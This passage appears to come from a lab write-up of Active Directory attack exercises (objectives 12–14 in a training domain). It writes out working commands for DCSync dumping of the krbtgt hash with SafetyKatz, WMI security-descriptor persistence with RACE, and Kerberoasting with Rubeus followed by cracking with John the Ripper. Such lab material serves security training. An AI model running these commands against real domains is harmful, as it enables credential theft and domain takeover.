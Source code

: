 ```
Get-DomainObjectAcl -SearchBase "DC=dollarcorp,DC=moneycorp,DC=local" -SearchScope Base -ResolveGUIDs | ?{($_.ObjectAceType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match "studentx"}
```
- Now we have the access. Now, below command (or any similar tool) can be used as studentx to get the hashes of krbtgt user or any other user.
```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\SafetyKatz.exe -args "lsadump::evasive-dcsync /user:dcorp\krbtgt" "exit"
```


---


# Objective - 13

#### Flag - SDDL string that provides studentx same permissions as BA on root\cimv2 WMI namespace. Flag value is the permissions string from (A;CI;Permissions String;;;SID)
- Once we have administrative privileges on a machine, we can modify security descriptors of services to access the services without administrative privileges. Below command (to be run as Domain Administrator) modifies the host security descriptors for WMI on the DC to allow studentx access to WMI:
```
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
. C:\AD\Tools\RACE.ps1
Set-RemoteWMI -SamAccountName studentx -ComputerName dcorp-dc -namespace 'root\cimv2' -Verbose
```
- Now, we can execute WMI queries on the DC as studentx:
```
gwmi -class win32_operatingsystem -ComputerName dcorp-dc
```


---


# Objective - 14
#### Flag - SPN for which a TGS is requested	
```
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
. C:\AD\Tools\PowerView.ps1
Get-DomainUser -SPN
```
- The svcadmin, which is a domain administrator has a SPN set! Let's Kerberoast it!
```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args kerberoast /user:svcadmin /simple /rc4opsec /outfile:C:\AD\Tools\hashes.txt
```
- we have the hash (remove :1433 and then run), we can crack the hash
```
C:\AD\Tools\john-1.9.0-jumbo-1-win64\run\john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\hashes.txt
```

